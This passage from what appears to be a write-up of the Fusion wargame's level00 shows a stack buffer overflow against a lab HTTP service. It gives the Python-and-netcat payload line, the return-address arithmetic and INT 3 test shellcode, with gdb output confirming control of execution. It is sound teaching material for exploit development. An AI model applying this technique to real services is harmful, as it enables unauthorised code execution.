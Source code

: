So, if we were to place some bytes after ``HTTP/1.1", then not only
will this not ruin our psuedo-http compliance, but these bytes will
not be checked in any way, as our overflow bytes passed to \texttt{realpath(path, resolved)} were.
Let's explore this with the magical byte \texttt{0xcc}. According to
the Intel Manuals for the x86 architecture\footnote{http://www.intel.com/content/www/us/en/processors/architectures-software-developer-manuals.html}, this
is for the \texttt{INT 3} instruction, used by debuggers to set breakpoints.
To redirect execution to our test shellcode, we'll need to calculate its address.
With some simple algebra, we simply add the number of characters
we've written to our buffer to the buffer's starting address. So, 
including the ``GET", overflow buffer and ``HTTP/1.1\textbackslash n", we have 157
bytes, giving a target address of \texttt{0xbffff8f8+157 = 0xbffff995},
assuming we jump to the byte immediately following the ``HTTP/1.1\textbackslash n".

\begin{lstlisting}
fusion@fusion:~/level00$ python -c 'print "GET " + "A"*139 + "\x95\xf9\xff\xbf" + " HTTP/1.1\n" + "\xcc"*2' | nc localhost 20000
[debug] buffer is at 0xbffff8f8 :-)
fusion@fusion:~/level00$ sudo rm /core
fusion@fusion:~/level00$ sudo gdb -q --core /core
[New LWP 2499]
Core was generated by `/opt/fusion/bin/level00'.
Program terminated with signal 5, Trace/breakpoint trap.
#0  0xbffff996 in ?? ()
\end{lstlisting}

Excellent! Noticing that we crashed because of an unhandled
breakpoint trap, and that the instruction pointer is immediately
after where we redirected to, we know that we have succesfully
redirected execution to our payload. All that is left is to
create a suitable payload for our purposes, and we have
a full exploit.\\

This is nice, but nothing here strictly relates to ASLR. We
had some extra work in sending a buffer over the network while satisfying
certain conditions, but this was hardly a problem. More 
importantly, the address of the buffer, which is just given
to us, does not change between executions as it would under ASLR.
This is why we move to the next challenge, \texttt{level01}. 
It is identical to the previous one, but with a form of ASLR, and 
won't give us hints. This way, we can borrow all of the work
we just did, but in adapting it to \texttt{level01}, focus
only on the ASLR-related aspects.\\


